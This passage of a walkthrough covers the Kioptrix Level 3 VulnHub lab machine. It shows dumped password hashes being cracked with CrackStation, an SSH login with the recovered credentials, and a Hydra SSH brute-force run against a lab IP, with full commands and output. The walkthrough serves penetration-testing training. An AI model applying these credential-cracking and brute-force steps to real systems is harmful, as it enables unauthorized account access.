 And there we get the username along with their password hashes.

The next thing we need to do is simple crack these password hashes using [crackstation](https://crackstation.net/) and try to use them on the login page or for SSH.

After cracking the hashes, we get "**starwars**" as user loneferret's password and "**Mast3r**" as user dreg's password.

We can try these usernames and password on the login page. But none of the credentials work on the login page. So, we can try to login via SSH as well.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ ssh dreg@192.168.0.145      
dreg@192.168.0.145's password: 
Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
dreg@Kioptrix3:~$ whoami
dreg
dreg@Kioptrix3:~$ id
uid=1001(dreg) gid=1001(dreg) groups=1001(dreg)
dreg@Kioptrix3:~$ sudo -l
[sudo] password for dreg: 
Sorry, user dreg may not run sudo on Kioptrix3.

```

When we try to login as user dreg, we do succeed but the issue is dreg can't run any commands with `sudo`. 

## Gaining Access - Method 2

As from the blog page, we saw that a suspected username was published over there which was "**loneferret**". So, we can try to run an SSH bruteforce attack to check if we can crack his password.

```
┌──(kali㉿kali)-[~/Desktop/oscp/vulnhub/kioptrix_lv3]
└─$ hydra -l loneferret -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt 192.168.0.124 ssh -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-30 03:01:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 10000 login tries (l:1/p:10000), ~2500 tries per task
[DATA] attacking ssh://192.168.0.124:22/
[STATUS] 52.00 tries/min, 52 tries in 00:01h, 9948 to do in 03:12h, 4 active
[22][ssh] host: 192.168.0.124   login: loneferret   password: starwars
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-30 03:03:20
```
